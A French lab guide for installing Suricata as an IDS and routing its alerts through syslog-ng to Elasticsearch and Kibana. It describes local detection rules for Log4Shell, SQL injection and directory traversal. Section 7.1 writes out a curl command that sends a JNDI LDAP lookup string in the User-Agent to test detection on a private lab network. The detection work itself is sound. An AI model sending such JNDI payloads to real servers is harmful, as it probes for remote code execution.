







# Installation et configuration de Suricata

## 1. Rôle dans le SOC

Suricata inspecte le trafic du réseau de laboratoire sur `enp0s8` et écrit ses événements dans `/var/log/suricata/eve.json`. syslog-ng collecte les événements `alert` et `flow`, puis les transmet à Elasticsearch dans `lab-syslog-ids` via le pipeline `suricata-json`. Voir le [guide syslog-ng](03-installation-syslog-ng.md).

Suricata fonctionne en **IDS** : il détecte les signatures et produit des alertes, sans bloquer le trafic.

Prérequis : Ubuntu 24.04, accès sudo et interface `enp0s8` sur `192.168.56.0/24`. Les scénarios HTTP utilisent le serveur web `192.168.56.10:80`, installé dans le [guide de l’application](05-application-web.md).

## 2. Installer les paquets

Sur Ubuntu :

```bash
sudo apt update
sudo apt install -y suricata suricata-update jq
suricata -V
dpkg-query -W suricata suricata-update jq
```

L’historique APT enregistre l’installation le **16 septembre 2026 à 23:09:46** : Suricata `1:7.0.3-1build3` et suricata-update `1.3.0-2`.



La version installée est **Suricata 7.0.3**.

Pour retrouver la preuve d'installation :

```bash
sudo zcat -f /var/log/apt/history.log* | grep -B 2 -A 3 -E '^Commandline:.*install.*suricata'
```

## 3. Configurer l'interface et les réseaux

Sauvegarder le fichier avant de modifier les sections existantes, sans dupliquer les clés YAML :

```bash
ip -br address
sudo cp -a /etc/suricata/suricata.yaml /etc/suricata/suricata.yaml.bak
sudo nano /etc/suricata/suricata.yaml
```

Dans la section `af-packet`, configurer :

```yaml
af-packet:
  - interface: enp0s8
    cluster-id: 99
    cluster-type: cluster_flow
    defrag: yes
  - interface: default
```

Le trafic du laboratoire est capturé sur `enp0s8`.



`enp0s8` est l'interface choisie ; `cluster_flow` répartit les paquets par flux. Pour afficher cette section :

```bash
sudo grep -A 28 -n '^af-packet:' /etc/suricata/suricata.yaml
```

La valeur réellement observée de `vars.address-groups.HOME_NET` est :

```yaml
HOME_NET: "[192.168.0.0/16,10.0.0.0/8,172.16.0.0/12]"
```

Cette définition inclut le serveur `192.168.56.10` dans les réseaux surveillés.

## 4. Installer et déclarer les règles

Sur une nouvelle installation, générer le jeu de règles avec :

```bash
sudo suricata-update
sudo install -d -m 0755 /etc/suricata/rules
```

`suricata-update` récupère les règles ET Open et génère `/var/lib/suricata/rules/suricata.rules`.

Depuis la racine du dépôt, installer les règles du projet :

```bash
sudo install -m 0644 config/suricata/local.rules /etc/suricata/rules/local.rules
```

Dans `/etc/suricata/suricata.yaml`, conserver :

```yaml
default-rule-path: /var/lib/suricata/rules
rule-files:
  - suricata.rules
  - /etc/suricata/rules/local.rules
```



La configuration définit HOME_NET, le répertoire des règles et le fichier local. Pour la consulter :

```bash
sudo grep -n 'HOME_NET:' /etc/suricata/suricata.yaml
sudo grep -n '^default-rule-path:' /etc/suricata/suricata.yaml
sudo grep -A 8 -n '^rule-files:' /etc/suricata/suricata.yaml
```



Les règles visibles correspondent au fichier [local.rules](../config/suricata/local.rules). Pour les afficher : `sudo cat /etc/suricata/rules/local.rules`.

| Scénario | SID / révision | Conditions principales |
| --- | --- | --- |
| Tentative Log4Shell | 1000002 / 1 | HTTP vers HOME_NET:80 ; motif JNDI dans User-Agent ; comparaison insensible à la casse |
| Tentative d'injection SQL | 1000004 / 2 | HTTP vers 192.168.56.10:80 ; URI contenant /apptest/login.php ; corps contenant username= et un motif SQL de la règle |
| Traversée de répertoires | 100005 / 1 | HTTP vers 192.168.56.10:80 ; URI brute contenant ../ |

Ces signatures couvrent les motifs définis, pas toutes les variantes d'attaque. La règle SQL ne contient pas de transformation `url_decode` ; la règle de traversée recherche le motif littéral dans l'URI brute. Le chiffrement HTTPS empêche leur inspection HTTP sans accès au trafic déchiffré. La règle JNDI détecte un indicateur dans un en-tête, sans démontrer une vulnérabilité Log4j du serveur.

## 5. Activer la sortie EVE JSON

Dans la section `outputs` existante, vérifier l'entrée `eve-log` :

```yaml
- eve-log:
    enabled: yes
    filetype: regular
    filename: eve.json
    pcap-file: false
    types:
      - alert:
          tagged-packets: yes
      - flow
```

Intégrer cet extrait dans l’entrée `eve-log` de la section `outputs`. syslog-ng transmet les événements `alert` et `flow`. Conserver les autres paramètres de cette entrée.

```bash
sudo sed -n '/^  - eve-log:/,/^  - http-log:/p' /etc/suricata/suricata.yaml
```

Le fichier attendu dans ce laboratoire est `/var/log/suricata/eve.json`. Contrôler sa présence et son contenu après génération de trafic :

```bash
sudo ls -lh /var/log/suricata/eve.json
sudo tail -n 100 /var/log/suricata/eve.json | jq -c 'select(.event_type == "alert" or .event_type == "flow")'
```

## 5.1. Paramètres d'inspection HTTP

Dans `app-layer.protocols.http.libhtp.default-config`, configurer les valeurs du laboratoire :

```yaml
personality: IDS
request-body-limit: 100kb
response-body-limit: 100kb
request-body-minimal-inspect-size: 32kb
request-body-inspect-window: 4kb
response-body-minimal-inspect-size: 40kb
response-body-inspect-window: 16kb
response-body-decompress-layer-limit: 2
```

Les limites de 100kb bornent le contenu des corps réassemblé pour inspection. Les paramètres minimal-inspect-size et inspect-window règlent la progression de l'inspection des corps ; ils ne représentent pas une taille minimale obligatoire pour toute requête HTTP. La règle SQL inspecte le corps de la requête, tandis que les règles JNDI et traversée utilisent respectivement l'en-tête User-Agent et l'URI brute. Un motif situé au-delà des limites d'inspection peut échapper à la détection.

Pour afficher les valeurs et leur contexte :

```bash
sudo grep -n -B 5 -A 5 -E 'request-body-limit:|response-body-limit:|request-body-minimal-inspect-size:|response-body-minimal-inspect-size:' /etc/suricata/suricata.yaml
```

## 6. Valider et lancer

```bash
sudo suricata -T -c /etc/suricata/suricata.yaml
```



Le message `Configuration provided was successfully loaded. Exiting.` confirme la validité de la configuration.

Après validation :

```bash
sudo systemctl enable suricata
sudo systemctl restart suricata
sudo systemctl status suricata --no-pager -l
sudo tail -n 30 /var/log/suricata/suricata.log
```



Le service est `enabled` et `active (running)`. Le processus utilise `--af-packet -c /etc/suricata/suricata.yaml`.

## 7. Vérifier les alertes et la collecte

Pendant l'exécution d'un scénario HTTP du laboratoire :

```bash
sudo tail -f /var/log/suricata/eve.json | jq 'select(.event_type == "alert") | {timestamp,src_ip,dest_ip,alert}'
```

Identifier l'heure, l'adresse source, la destination et `alert.signature_id`, puis rechercher le même événement dans Kibana avec la vue de données couvrant `lab-syslog-ids` et une période correspondant au test. Après le pipeline, les champs utiles sont `@timestamp`, `source.ip`, `destination.ip`, `suricata.event_type` et `suricata.alert.signature_id`.

Exemple de filtre KQL pour les règles locales :

```text
suricata.event_type : "alert" and suricata.alert.signature_id : (1000002 or 1000004 or 100005)
```

Si aucun événement n’apparaît, contrôler l’interface, le trafic HTTP, les règles chargées, le fichier EVE, syslog-ng et la destination Elasticsearch.

## 7.1. Preuve de détection JNDI

Un test a été effectué avec la règle locale SID 1000002. Depuis Kali :

```bash
curl -A '${jndi:ldap://192.168.56.101:1389/test}' http://192.168.56.10/
```

La chaîne JNDI est envoyée dans le User-Agent HTTP. Le test vérifie la signature Suricata ; il ne démontre ni une exploitation Log4j ni une connexion LDAP du serveur.

Sur Ubuntu, afficher le résultat :

```bash
sudo tail -n 2000 /var/log/suricata/eve.json |
jq -c 'select(.event_type == "alert" and .alert.signature_id == 1000002) |
{timestamp,src_ip,dest_ip,signature_id:.alert.signature_id,signature:.alert.signature}'
```



Champs de l’événement :

| Champ | Valeur observée | Interprétation |
| --- | --- | --- |
| timestamp | 2026-09-30T22:07:49.444574-0400 | Heure de l'événement avec fuseau UTC−4 |
| src_ip | 192.168.56.101 | Kali, à l'origine de la requête |
| dest_ip | 192.168.56.10 | Serveur Ubuntu ciblé |
| signature_id | 1000002 | Règle JNDI du fichier local.rules |
| signature | Tentative Log4Shell - JNDI | Nom de la signature déclenchée |

L’alerte locale et le document Discover ci-dessous correspondent au même événement.

Dans Discover, sélectionner la vue couvrant `lab-syslog-ids`, puis une plage absolue incluant l'événement (par exemple le 30 septembre 2026 de 22:05 à 22:10 si Kibana affiche UTC−4 ; de 02:05 à 02:10 le 1er octobre en UTC). Utiliser :

```text
suricata.event_type : "alert" and suricata.alert.signature_id : 1000002 and source.ip : "192.168.56.101"
```

Développer le document et vérifier `@timestamp`, `source.ip`, `destination.ip`, `suricata.alert.signature_id` et `suricata.alert.signature`. La capture ci-dessous relie la preuve locale à l'événement indexé.

## 7.2. Preuve de collecte dans Kibana


La capture Discover utilise la vue de données affichée **Logs de sécurité**, le filtre `suricata.event_type : "alert" and suricata.alert.signature_id : 1000002` et la période « Last 15 minutes ». Elle affiche **Documents (1)**.

| Élément visible | Lecture |
| --- | --- |
| source.ip : 192.168.56.101 | Adresse de Kali ayant envoyé la requête de test |
| destination.ip : 192.168.56.10 | Serveur Ubuntu surveillé |
| @timestamp : 30 septembre 2026, 22:07:49.444 | Correspond à l'heure de l'alerte EVE, affichée ici à la milliseconde |
| suricata.alert.signature : Tentative Log4Shell - JNDI | Même signature que la preuve locale |
| Barre turquoise vers 22:07 | Un document correspondant au filtre dans ce compartiment temporel |
| Intervalle automatique : 30 secondes | Largeur des compartiments de l'histogramme, pas délai d'ingestion |

L’heure, les IP et la signature correspondent à l’alerte locale. Ce test valide la collecte **Suricata → syslog-ng → Elasticsearch → Discover**. Les essais avec alerte Elastic Security et courriel sont présentés dans le [guide d’utilisation](07-guide-utilisation.md).

Pour reproduire la vue :

1. Ouvrir Discover et sélectionner la vue couvrant `lab-syslog-ids` (affichée « Logs de sécurité » dans cette capture).
2. Choisir une période incluant le test, puis actualiser.
3. Appliquer le filtre KQL ci-dessus.
4. Ajouter les colonnes `source.ip`, `destination.ip`, `@timestamp` et `suricata.alert.signature`.

## Référence

[Guide officiel Suricata 7.0.3](https://docs.suricata.io/en/suricata-7.0.3/quickstart.html).

[Référence des paramètres HTTP, Suricata 7.0.3](https://docs.suricata.io/en/suricata-7.0.3/configuration/suricata-yaml.html#configure-http-libhtp).
